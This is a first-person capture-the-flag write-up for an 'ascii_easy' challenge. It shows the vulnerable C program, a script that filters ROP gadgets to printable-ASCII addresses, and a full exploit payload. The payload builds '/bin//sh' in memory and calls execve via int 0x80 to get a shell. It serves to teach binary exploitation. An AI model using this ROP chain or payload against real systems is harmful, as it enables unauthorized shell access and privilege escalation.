# Thought Process

```
ascii_easy@ubuntu:~$ ls
ascii_easy  ascii_easy.c  flag  libc-2.15.so
```

Before anything ill check securities and archetecture



Alright cool now lets check the code.

```
ascii_easy@ubuntu:~$ cat ascii_easy.c 
#include <sys/mman.h>
#include <sys/stat.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <fcntl.h>

#define BASE ((void*)0x5555e000)

int is_ascii(int c){
    if(c>=0x20 && c<=0x7f) return 1;
    return 0;
}

void vuln(char* p){
    char buf[20];
    strcpy(buf, p);
}

void main(int argc, char* argv[]){

    if(argc!=2){
        printf("usage: ascii_easy [ascii input]\n");
        return;
    }

    size_t len_file;
    struct stat st;
    int fd = open("/home/ascii_easy/libc-2.15.so", O_RDONLY);
    if( fstat(fd,&st) < 0){
        printf("open error. tell admin!\n");
        return;
    }

    len_file = st.st_size;
    if (mmap(BASE, len_file, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE, fd, 0) != BASE){
        printf("mmap error!. tell admin\n");
        return;
    }

    int i;
    for(i=0; i<strlen(argv[1]); i++){
        if( !is_ascii(argv[1][i]) ){
            printf("you have non-ascii byte!\n");
            return;
        }
    }

    printf("triggering bug...\n");
    setregid(getegid(), getegid());
    vuln(argv[1]);

}
```

Lets try understand what it does. is_ascii seems to check if a char is printable ascii. vuln() has quite a clear buffer overflow it takes a char array of any size and sticks it into a buffer. Now lets see what the program actually does.

Based off the code i see that the program takes a string of all printable ascii characters, loads the libc provided, makes sure we gave it only printable chars, and then stores it into the buffer. the challenge here is to get a shell with an exploit that only uses printable ascii. we are given the libc and its base address so i assume we can find system() and /bin/sh. let me run this in gdb to get a basic understanding of the process.



lets break at ret, and see what the stack looks like. alrigh  t so as expected we simply have the buffer, ebp and then the ret. i need to find a way to jump to system with only ascii chars. the issue with ascii chars is that we can only use bytes between 0x21-0x7E. we need to remember the hint given uppon starting "hint : you don't necessarily have to jump at the beggining of a function. try to land anywhere." perhaps we can land in like an empty spot with a bunch of null bytes right before system() or something? honeslty since we have the flag in this folder maybe we dont even need a shell, maybe we just need to printf the flag. the base of libc thats loaded is 0x5555e000,

the 2 base bytes are printable with ascii 55 55 = "UU". lets find someting in that range from the provided libc that can help us. ill check some common functions for example system() is at `*(0x5555e000 + 0x0003eed0) = 0x5559ced0` which is not ascii printable. another useful one might be syscall since the arg would just be a hex num which could likely be printable.

```
ascii_easy@ubuntu:~$ nm -D libc-2.15.so | grep "syscall"
000eae90 T syscall@@GLIBC_2.0
```

so the address would be `*(0x5555e000 + 0x000eae90) = 0x55648e90` once again not ascii printable. ill try thing of a workaround. an additional way to call a syscall would be using int 0x80. doing int 0x80 calls a linux syscall based on whats in eax. in our instance we would want execve (So we can get a shell).



ill need to build a simple rop chain. ill try find some rop gadgets that set these parameters up for me but their addresses must be ascii printable. so ill use ropper to extract all gadgets and then filter if the base + offset is ascii printable. ropper is actully not installed so ill use ROPgadget.

```
import subprocess

path = "/home/ascii_easy/libc-2.15.so"
base = 0x5555e000
def is_ascii(addr):
    b = addr.to_bytes(4, 'little') #little endian
    return all(0x20 <= x <= 0x7e for x in b)

#ropper not installed on the server
#run ropper
#result = subprocess.check_output(
#    ["ropper", "--file", path, "--nocolor"],
#    text=True
#)
result = subprocess.check_output(
    ["ROPgadget", "--binary", path],
    text=True
)   

good_gadgets = []
for line in result.splitlines():
    if ":" not in line:
        continue
    try:
        offset_str,gadget = line.split(":", 1)
        offset = int(offset_str.strip(), 16)
    except:
        continue

    real_addr = base+offset
    if is_ascii(real_addr):
        good_gadgets.append((real_addr, gadget.strip()))
print(f"---found {len(good_gadgets)} ascii printable gadgets:\n")

with open("gadgets_ascii.txt", "w") as f:
    for addr,gadget in good_gadgets:
        f.write(f"{hex(addr)} : {gadget}\n")
```

now ill run this and start getting some useful gadgets. ill start with finding an interrupt gadget



nice!! we can use 0x55667176. now we need somehow to store 0xb in eax and /bin/sh in ebx and return to this addr. lets grep eax, 0xb. as expected no direct result. perhaps we can pop something from the stack into eax but it think that wont work cuz we can only enter bytes in the ascii character range. ill look for an xor eax,eax so eax turns to zero and then look for a inc eax and run that 11 times



nice so we can zero out eax, now lets find inc eax ; ret.



perfect!!! this is exactly what we needed. so the payload will start with returning to `0x555f6424` then to `0x556c6864` 11 times. this will get eax to 0xb. now we must find some way to get /bin/sh into ebx.

```
ascii_easy@ubuntu://tmp$ strings -tx /home/ascii_easy/libc-2.15.so | grep /bin/sh
15d7ec /bin/sh
>>> print(hex(0x15d7ec + 0x5555e000))
0x556bb7ec
```

as we can see this address is not ascii printable so we cant access it directly. what i was thinking is getting the closest ascii printable addr into ebx then incrementing ebx but we dont have a ropgadget that will work for taht with no side effects. im going to have to build /bin/sh in a writable memory address. im gonna use a rop gadget to pop from the stack and store in some writable address, then append a null terminator and finally load it into ebx and call int 0x80. writable memory here is anywhere in the range of the mmap'd libc, we can use 0x55562020 for example.

we can use this gadget `0x555f3555 : pop edx ; xor eax, eax ; pop edi ; ret` thatll pop /bin into edi and the writable address into edx, then well use some sort of mov [edx], edi to write /bin into that address.

we dont neccasarily have to build /bin//sh into edx and edi, thats jst whats preffered. ill search for general mov [x], y and check for pop x and pop y ret. searching less specifically i found a few useful gadgets:

```
0x555f3555 : pop edx ; xor eax, eax ; pop edi ; ret
0x55687b3c : mov dword ptr [edx], edi ; pop esi ; pop edi ; ret
```

pop into edx (we will pop into edx a .bss address) then zero out eax (useless sideaffect) and then pop /bin into edi. next we mov into the writable address ([edx]) edi so the address now contains /bin and 2 more useless pop's. we will do this again for //sh (which is the same as /sh, we just need 4 bytes) into the address we pick + 4. now we will have /bin//sh in memory we just need to add a terminator i found a mov [edx], eax and we can use an xor eax eax to zero it out

after writing /bin//sh we will zero out eax, inc it 11 times (for execve syscall as we said earlier) then setup the other registers for execve: we will set ebx to the writable address, we will set ecx to 0 and edx to 0 (these args wil need to be null) then finally we will jump to inc esi ; int 0x80

ill find a writable address



i forgot to pick a ascii printable address for the writable address, ill pick a different address my bad :-)



ill use 0x55562023, 0x55562027, 0x5556202b all ascii printable (addr, addr+4, addr+8)

Ill now map out the final rop chain, then find the padding needed till the first 'ret' instruction, then build the payload.

# final ROP chain!!!

x

```
initial stack :

PADDING As 

0x555f3555 write bin
0x55562023
"/bin"

0x55687b3c
"AAAA"
"BBBB"

0x555f3555 write sh
0x55562027
"//sh"

0x55687b3c
"AAAA"
"BBBB"

0x555f3555 write terminator
0x5556202b
"JUNK"

0x5560645c

0x5557734e
0x55562023

0x556d2a51
0x5556202b

0x555f3555
0x5556202b
"JUNK"

0x556c6864 inc eax to get to 0xb
0x556c6864
0x556c6864
0x556c6864
0x556c6864
0x556c6864
0x556c6864
0x556c6864
0x556c6864
0x556c6864
0x556c6864

0x55667176 int 0x80
```

Lets just find the padding needed till the first ret



great so well pad 32 As. now ill build the final payload

```
payload = b"A"*32 # padding

writable = 0x55562023

payload += p32(0x555f3555) + p32(writable) + b"/bin"  # set edx to addr and edi to /bin
payload += p32(0x55687b3c) + b"AAAA" + b"BBBB" # write /bin to [edx] (2 useless pops so we put junk)
payload += p32(0x555f3555) + p32(writable + 4) + b"//sh" # set edx to addr + 4 and edi to //sh
payload += p32(0x55687b3c) + b"AAAA" + b"BBBB" # write //sh to [edx] (2 more useless pops)
payload += p32(0x555f3555) + p32(writable + 8) + b"CCCC" #set edx to addr+8 and zero eax 
payload += p32(0x5560645c) # write eax at addr+8 (null terminator)
payload += p32(0x5557734e) + p32(writable) # setup registers for execve (eax = execve id (11), ebx = addr, ecx = 0, edx = 0)
payload += p32(0x556d2a51) + p32(writable + 8)
payload += p32(0x555f3555) + p32(writable + 8) + b"DDDD"

payload += p32(0x556c6864) * 11 #inc eax to 0xb
payload += p32(0x55667176) # run int 0x80
```

This should work, ill just connect with pwntools and send this as the string adn finally it should work.


HUZZAAHH!


